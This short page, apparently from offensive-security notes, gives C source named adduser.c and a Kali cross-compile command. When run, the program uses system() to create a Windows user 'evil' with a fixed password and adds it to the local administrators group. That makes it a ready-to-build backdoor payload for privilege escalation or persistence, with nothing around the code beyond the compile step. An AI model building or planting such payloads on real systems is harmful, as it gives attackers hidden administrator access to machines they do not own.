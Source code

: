 # adduser.c code

## Code

```text
#include <stdlib.h>
int main ()
{
 int i;

 i = system ("net user evil Ev!lpass /add");
 i = system ("net localgroup administrators evil /add");
 return 0;
}
```

## Compile the code

```text
kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

